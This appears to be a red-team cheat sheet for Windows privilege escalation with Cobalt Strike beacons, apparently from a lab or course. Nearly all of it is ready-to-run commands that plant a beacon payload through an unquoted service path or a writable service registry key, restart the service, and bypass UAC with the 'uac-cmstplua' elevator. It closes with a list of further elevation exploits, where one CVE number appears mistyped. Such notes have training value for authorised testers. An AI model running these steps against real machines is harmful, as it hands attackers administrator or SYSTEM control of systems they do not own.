 

#### Unquoted Service Path

Enumerate available services
```powershell
sc_enum
```

> When abusing services, the dedicated svc.exe payloads must be used.

Query service and view permissions on file path
```powershell
sc_qc BadWindowsService

cacls "C:\Program Files\Bad Windows Service"
```

Upload DNS payload and rename to abuse unquoted service path
```powershell
cd C:\Program Files\Bad Windows Service

upload C:\Payloads\dns_x64.svc.exe

mv dns_x64.svc.exe Service.exe
```

Restart service
```powershell
sc_stop BadWindowsService
sc_start BadWindowsService
```

Checkin on new beacon
```powershell
checkin
```

Remove payload
```powershell
rm Service.exe
```

#### Service Registry Permissions

Enumerate permissions of the service's regsitry key and view current bin path
```powershell
powerpick Get-Acl -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\BadWindowsService' | fl

sc_qc BadWindowsService
```

Stop the service
```powershell
sc_stop BadWindowsService
```

Upload payload to writeable directory
```powershell
cd C:\Windows\Tasks

upload C:\Payloads\dns_x64.svc.exe
```

Change bin path to the payload
```powershell
sc_config BadWindowsService C:\Windows\Tasks\dns_x64.svc.exe 0 2
```

Start the service
```powershell
sc_start BadWindowsService
```

Restore the bin path and remove payload
```powershell
sc_config BadWindowsService "C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe" 0 2

rm  C:\Windows\Tasks\dns_x64.svc.exe
```

#### UAC Bypass

> Right-click the Beacon, select **Access > One-liner** and select the tcp-local listener.

Execute UAC bypasss
```powershell
runasadmin uac-cmstplua [ONE-LINER]
```

Connect to beacon
```powershell
connect localhost 1337
```

More can be found here
```powershell
beacon> runasadmin

Beacon Command Elevators
========================

    Exploit                         Description
    -------                         -----------
    ms16-032                        Secondary Logon Handle Privilege Escalation (CVE-2016-099)
    uac-cmstplua                    Bypass UAC with CMSTPLUA COM interface
    uac-eventvwr                    Bypass UAC with eventvwr.exe
    uac-schtasks                    Bypass UAC with schtasks.exe (via SilentCleanup)
    uac-token-duplication           Bypass UAC with Token Duplication
    uac-wscript                     Bypass UAC with wscript.exe
```